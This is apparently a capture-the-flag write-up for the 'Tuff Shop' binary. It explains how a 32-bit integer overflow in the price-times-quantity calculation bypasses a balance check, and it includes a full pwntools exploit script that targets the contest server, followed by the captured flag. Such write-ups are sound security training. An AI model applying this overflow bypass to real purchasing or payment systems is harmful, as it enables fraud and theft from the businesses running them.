

# Tuff Shop
### Description: Oh my god! You just haxxed this really TUFFFF shop! Give me your best six seven prank and find how to access the flag!

We are given a ```main``` binary file.

Doing file on it reveals it's an ELF 64-bit file:


Doing strings on it reveals some flavor text of what seems to be a storefront where you can buy a flag, and a hidden flag.txt:

```
❯ strings main

flag.txt
Error opening flag.txt
Send this to the customer: %s
Tuff Menu Console
Balance of customer: %d
Choose what the customer is buying:
1. Six Seven ($67)
2. Did Unc Snap ($41)
3. Flag ($100K)
0. nothing
Total cost for %d items: $%d
Not enough balance
Purchase successful! Remaining balance: $%d
Invalid choice
Exiting...
Enter quantity: 
Invalid quantity
:*3$"
```

Ran objdump -d main against the file, we can get some dissasemblies:
```
objdump -d main
```

If we look at the ```buy``` function's dissasembly, we can see something interesting:
```
1318:	8b 55 d8             	mov    -0x28(%rbp),%edx  ; quantity
131b:	0f af c2             	imul   %edx,%eax         ; price * quantity
131e:	89 45 e8             	mov    %eax,-0x18(%rbp)  ; store total cost
```

price * quantity. This uses 32-bit signed arithmetic (imul instruction), which can overflow.

32-bit signed integer maximum: 2,147,483,647. When 100,000 * quantity exceeds 2,147,483,647, it wraps around to negative values due to two's complement representation.

And then, we can see this comparison/validation logic around 0x1343-0x1346:

```
1343:	39 45 e8             	cmp    %eax,-0x18(%rbp)  ; (which compares cost vs balance)
1346:	7e 11                	jle    1359 <buy+0x83>   ; (which jump if cost <= balance)
```

And, at 0x1384-0x138f:
```
1384:	83 7d dc 03          	cmpl   $0x3,-0x24(%rbp)  ; (will check if item == 3 (flag))
1388:	75 0a                	jne    1394 <buy+0xbe>
138a:	b8 00 00 00 00       	mov    $0x0,%eax
138f:	e8 75 fe ff ff       	call   1209 <flag>        ; (will call flag() function)
```

When buying item 3 (the flag) successfully, it calls the flag() function which reads and displays the flag from flag.txt.

Based on these information, we can draft a solver (with the server address included) to just immediately get the flag:

```
#!/usr/bin/env python3
from pwn import *
import time

# Target connection
host = "intersec.hcs-team.com"
port = 10224

try:
    # Connect to the remote service
    p = remote(host, port)
    
    print("Connected! Waiting for menu...")
    
    # Wait for the menu
    p.recvuntil(b"Balance of customer:")
    balance_line = p.recvline()
    print(f"Balance line: {balance_line.decode()}")
    
    # Receive the full menu
    menu_data = p.recvuntil(b"0. nothing")
    print("Menu received:")
    print(menu_data.decode())
    
    # Choose option 3 (Flag - $100K)
    print("Choosing option 3 (Flag)")
    p.sendline(b"3")
    
    # Wait for quantity prompt
    p.recvuntil(b"Enter quantity:")
    print("Quantity prompt received")
    
    # Calculate integer overflow
    # Flag costs $100,000
    # We want: 100000 * quantity to overflow to a small positive number
    # With 32-bit signed int: max = 2,147,483,647
    # 100000 * 21475 = 2,147,500,000 (overflows to negative)
    # Let's try different values to get a small positive result
    
    # Try quantity that causes overflow to small positive number
    # 2^32 / 100000 = 42949.67... 
    # So around 42950 should cause wraparound
    quantity = 42950
    
    print(f"Sending quantity: {quantity}")
    p.sendline(str(quantity).encode())
    
    # Receive response
    print("Waiting for response...")
    try:
        response = p.recvall(timeout=5)
        print("Response:")
        print(response.decode('utf-8', errors='ignore'))
        
        # Look for flag pattern
        response_str = response.decode('utf-8', errors='ignore')
        if any(flag_indicator in response_str.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
            print("\n*** FLAG FOUND IN RESPONSE ***")
            
    except EOFError:
        print("Connection closed")
    except Exception as e:
        print(f"Error receiving: {e}")
        
    print("First attempt done. Trying alternative quantities...")
    
except Exception as e:
    print(f"First connection failed: {e}")

# Try different quantities if first attempt fails
quantities_to_try = [
    21475,   # Should overflow to negative
    42949,   # Near the overflow boundary  
    43000,   # Slightly over
    -1,      # Negative quantity
    0,       # Zero quantity
    2147483647, # Max int
]

for qty in quantities_to_try:
    try:
        print(f"\nTrying quantity: {qty}")
        p = remote(host, port)
        
        # Skip to menu choice
        p.recvuntil(b"0. nothing")
        p.sendline(b"3")  # Choose flag
        
        p.recvuntil(b"Enter quantity:")
        p.sendline(str(qty).encode())
        
        try:
            response = p.recvall(timeout=3)
            response_str = response.decode('utf-8', errors='ignore')
            print(f"Response for {qty}: {response_str[:200]}...")
            
            if any(flag_indicator in response_str.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
                print(f"\n*** FLAG FOUND with quantity {qty} ***")
                print(response_str)
                break
                
        except:
            print(f"No response for quantity {qty}")
            
        p.close()
        time.sleep(0.5)
        
    except Exception as e:
        print(f"Failed with quantity {qty}: {e}")
        continue

print("Exploit attempts completed!")
```

Running the solver gives us the flag:



Flag: ```HCS{u_r_s0_tufff_pl3453_h4ck_m333_4g41nn_<3_b0ee5fb5-6618-4360-9ab4-ab03dfe619ae}```
